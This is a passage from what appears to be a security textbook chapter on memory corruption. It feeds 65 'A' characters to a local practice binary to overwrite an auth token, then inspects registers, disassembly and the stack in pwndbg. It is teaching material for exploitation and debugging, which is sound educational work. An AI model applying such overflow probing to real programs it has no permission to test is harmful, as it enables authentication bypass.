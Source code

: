 When we give the program 65 'A' characters as input, the auth token is no longer
zero! Let's analyze this some more in \texttt{pwndbg}.

\begin{lstlisting}
> gdb -q ./memory_corruption
Loaded 112 commands. Type pwndbg [filter] for a list.
Reading symbols from ./memory_corruption...(no debugging symbols found)...done.
pwndbg> b main
Breakpoint 1 at 0x40067d
pwndbg> r < <(python -c "print 'A' * 65")
Starting program: /home/devneal/Security/REFE/textbook/example_code/memory_corruption < <(python -c "print 'A' * 65")

Breakpoint 1, 0x000000000040067d in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
[───────────REGISTERS───────────]
*RAX  0x400679 (main) ◂— push   rbp
 RBX  0x0
 RCX  0x0
*RDX  0x7fffffffdf98 —▸ 0x7fffffffe2e1 ◂— 'XDG_VTNR=7'
*RDI  0x1
*RSI  0x7fffffffdf88 —▸ 0x7fffffffe29d ◂— 0x65642f656d6f682f ('/home/de')
*R8   0x400790 (__libc_csu_fini) ◂— ret    
*R9   0x7ffff7de7ab0 (_dl_fini) ◂— push   rbp
*R10  0x846
*R11  0x7ffff7a2d740 (__libc_start_main) ◂— push   r14
*R12  0x400550 (_start) ◂— xor    ebp, ebp
*R13  0x7fffffffdf80 ◂— 0x1
 R14  0x0
 R15  0x0
*RBP  0x7fffffffdea0 —▸ 0x400720 (__libc_csu_init) ◂— push   r15
*RSP  0x7fffffffdea0 —▸ 0x400720 (__libc_csu_init) ◂— push   r15
*RIP  0x40067d (main+4) ◂— sub    rsp, 0x50
[───────────DISASM───────────]
 ► 0x40067d <main+4>     sub    rsp, 0x50
   0x400681 <main+8>     mov    rax, qword ptr fs:[0x28]
   0x40068a <main+17>    mov    qword ptr [rbp - 8], rax
   0x40068e <main+21>    xor    eax, eax
   0x400690 <main+23>    lea    rax, [rbp - 0x50]
   0x400694 <main+27>    mov    edx, 0x40
   0x400699 <main+32>    mov    esi, 0
   0x40069e <main+37>    mov    rdi, rax
   0x4006a1 <main+40>    call   memset@plt                    <0x400510>
 
   0x4006a6 <main+45>    mov    qword ptr [rbp - 0x10], 0
   0x4006ae <main+53>    mov    edi, 0x4007fe
[────────────STACK────────────]
00:0000│ rbp rsp  0x7fffffffdea0 —▸ 0x400720 (__libc_csu_init) ◂— push   r15
01:0008│          0x7fffffffdea8 —▸ 0x7ffff7a2d830 (__libc_start_main+240) ◂— mov    edi, eax
02:0010│          0x7fffffffdeb0 ◂— 0x0
03:0018│          0x7fffffffdeb8 —▸ 0x7fffffffdf88 —▸ 0x7fffffffe29d ◂— 0x65642f656d6f682f ('/home/de')
04:0020│          0x7fffffffdec0 ◂— 0x1f7ffcca0
05:0028│          0x7fffffffdec8 —▸ 0x400679 (main) ◂— push   rbp
06:0030│          0x7fffffffded0 ◂— 0x0
07:0038│          0x7fffffffded8 ◂— 0x701cb6d5ca9d4ec1
[───────────BACKTRACE───────────]
 ► f 0           40067d main+4
   f 1     7ffff7a2d830 __libc_start_main+240
Breakpoint main
pwndbg> pdisass main 14
 ► 0x400679 <main>        push   rbp
   0x40067a <main+1>      mov    rbp, rsp
   0x40067d <main+4>      sub    rsp, 0x50
   0x400681 <main+8>      mov    rax, qword ptr fs:[0x28]
   0x40068a <main+17>     mov    qword ptr [rbp - 8], rax
   0x40068e <main+21>     xor    eax, eax
   0x400690 <main+23>     lea    rax, [rbp - 0x50]
   0x400694 <main+27>     mov    edx, 0x40
   0x400699 <main+32>     mov    esi, 0
   0x40069e <main+37>     mov    rdi, rax
   0x4006a1 <main+40>     call   memset@plt                    <0x400510>
 

\end{lstlisting}
